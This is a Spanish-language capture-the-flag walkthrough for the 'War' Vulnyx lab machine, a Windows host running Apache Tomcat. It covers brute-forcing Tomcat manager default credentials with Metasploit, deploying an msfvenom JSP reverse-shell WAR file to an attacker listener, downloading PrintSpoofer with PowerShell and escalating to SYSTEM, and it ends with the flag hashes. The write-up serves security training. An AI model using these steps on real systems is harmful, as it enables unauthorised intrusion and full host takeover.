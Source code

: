 ```yaml
---
icon: flag
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# War Vulnyx (Easy - Windows)

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-03 04:07 EDT
Nmap scan report for 192.168.5.70
Host is up (0.047s latency).

PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
5040/tcp  open  unknown
8080/tcp  open  http          Apache Tomcat (language: en)
|_http-title: Apache Tomcat/11.0.1
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
MAC Address: 08:00:27💿DF:7E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_nbstat: NetBIOS name: WAR, NetBIOS user: <unknown>, NetBIOS MAC: 08:00:27💿df:7e (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-08-03T18:09:54
|_  start_date: N/A
|_clock-skew: 9h59m58s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 175.87 seconds
```

Veremos varias cosas interesantes, entre ellas un puerto `8080` si entramos dentro del mismo, veremos un `apache Tomcat`, esto es bastante interesante, vamos abrir `metasploit` para probar a realizar una `fuerza bruta` del `login` del `manager` (Administrador) y a ver si podemos encontrar las credenciales para ir al panel de admin.

```shell
msfconsole -q
```

Una vez dentro utilizaremos el siguiente modulo:

```shell
use auxiliary/scanner/http/tomcat_mgr_login
```

Ahora lo configuraremos simplemente de esta forma:

```shell
set RHOSTS <IP_VICTIM>
run
```

Info:

```
[!] No active DB -- Credential data will not be saved!
[-] 192.168.5.70:8080 - LOGIN FAILED: admin:admin (Incorrect)
[-] 192.168.5.70:8080 - LOGIN FAILED: admin:manager (Incorrect)
[-] 192.168.5.70:8080 - LOGIN FAILED: admin:role1 (Incorrect)
[-] 192.168.5.70:8080 - LOGIN FAILED: admin:root (Incorrect)
[+] 192.168.5.70:8080 - Login Successful: admin:tomcat
```

Vemos que encontro unas credenciales por defecto, por lo que vamos a probarlas, nos iremos a la siguiente ruta web.

```
URL = http://<IP>/manager/html
```

Aqui nos pedira un `login` meteremos lo que encontramos `admin:tomcat` y veremos que estaremos dentro del panel de administrador, estando aqui dentro podremos probar a subir un archivo `.war` en el que cuando accedamos nos de una `reverse shell`, vamos a probar a ver si funciona.

## Escalate user nt authority\local service

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP-ATTACKER> LPORT=<PORT> -f war -o shell.war
```

Ahora vamos a ponernos a la escucha antes de nada:

```shell
nc -lvnp <PORT>
```

Una vez echo esto, nos iremos a la pagina y en la parte de `WAR file to deploy` subiremos el archivo `war` que hemos generado, una vez cargado y subido, un poco mas arriba veremos nuestro `war` subido en `Applications` por lo que ha funcionado de forma correcta.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-08-03 102138.png" alt=""><figcaption></figcaption></figure>

Ahora si le damos a ese `/shell` nos llevara a la "pagina" que hemos creado, una vez dado a dicha "pagina" si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.70] 56192
Microsoft Windows [Version 10.0.19045.2965]
(c) Microsoft Corporation. All rights reserved.

C:\Program Files\Apache Software Foundation\Tomcat 11.0>whoami
whoami
nt authority\local service
```

Veremos que ha funcionado, por lo que vamos a realizar un poco de `fuzzing` a ver que encontramos.

## Escalate Privileges

Si listamos los permisos que tenemos veremos lo siguiente:

```shell
whoami /priv
```

Info:

```
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeSystemtimePrivilege         Change the system time                    Disabled
SeShutdownPrivilege           Shut down the system                      Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

Veremos bastante interesante esta linea:

```
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

Al saber que tenemos como victima un `Windows 10` posiblemente no funcione el ejecutable antiguo llamado `JuicyPotato.exe` ya que Algunas versiones modernas de Windows **bloquean DCOM/COM CLSIDs**, por lo que vamos a utilizar una version mas facil llamada `PrintSpoofer`.

URL = [PrintSpoofer64.exe GitHub](https://github.com/itm4n/PrintSpoofer/releases)

Una vez que nos hayamos descargado el de `64 bits` vamos a pasarnoslo a nuestra maquian victima de esta forma con un comando de `powershell`.

Antes abriremos un servidor de `python3` donde este el binario.

```shell
python3 -m http.server 8000
```

Ahora ejecutamos esto en la maquina victima:

```powershell
powershell -c "(New-Object Net.WebClient).DownloadFile('http://<IP>:8000/PrintSpoofer64.exe', 'C:\Users\Public\Downloads\PrintSpoofer64.exe')"
```

Una vez echo lo anterior lo vamos a ejecutar de esta forma:

```powershell
.\PrintSpoofer64.exe -i -c powershell
```

Info:

```
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\system32> whoami
whoami
nt authority\system
```

Con esto veremos que ha funcionado y seremos ya directamente `nt authority\system` por lo que vamos a leer las `flags` del usuario y de `root`.

> user.txt

```
3a1ddb915bd423f0ca428dce35612dcb
```

> root.txt

```
1399d5ba705df14146335def4ff64520
```
